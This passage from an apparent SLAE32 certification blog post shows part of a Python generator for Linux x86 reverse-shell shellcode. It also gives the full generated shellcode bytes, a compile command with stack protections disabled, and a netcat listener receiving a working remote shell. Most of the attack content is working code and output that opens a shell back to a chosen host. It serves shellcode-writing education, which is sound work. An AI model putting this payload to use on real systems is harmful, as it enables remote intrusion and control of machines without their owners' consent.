 ```python
# Replace XOR key
shellcode = shellcode.replace('\\xff\\xff\\xff\\xff', '\\x{}\\x{}\\x{}\\x{}'.format(xor_bytes[3], xor_bytes[2], xor_bytes[1], xor_bytes[0]))

print('Here\'s the shellcode using IP {ip} and port {port}:'.format(ip = ip, port = port))
print(shellcode)

if '\\x0\\' in shellcode or '\\x00\\' in shellcode:
        print('##################################')
        print('Warning: Null byte in shellcode!')
        print('##################################')
```

To test, the IP address 172.23.10.37 is used with the port 5555:
```
slemire@slae:~/slae32/assignment2$ ./prepare.py 172.23.10.37 5555
Here's the shellcode using IP 172.23.10.37 and port 5555:
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb8\xad\x16\xb\x24\xbb\x1\x1\x1\x1\x31\xd8\x52\x52\x50\x66\x68\x15\xb3\x66\x6a\x02\x89\xe6\x31\xc0\x31\xdb\xb0\x66\xb3\x03\x6a\x10\x56\x57\x89\xe1\xcd\x80\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

Finally, the shellcode is tested:
```
slemire@slae:~/slae32/assignment2$ gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
slemire@slae:~/slae32/assignment2$ ./shellcode
[...]
slemire@slae:~$ nc -lvnp 5555
Listening on [0.0.0.0] (family 0, port 5555)
Connection from [172.23.10.37] port 5555 [tcp/*] accepted (family 2, sport 58584)
whoami
slemire
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1236

All source files can be found on GitHub at [https://github.com/slemire/slae32](https://github.com/slemire/slae32)
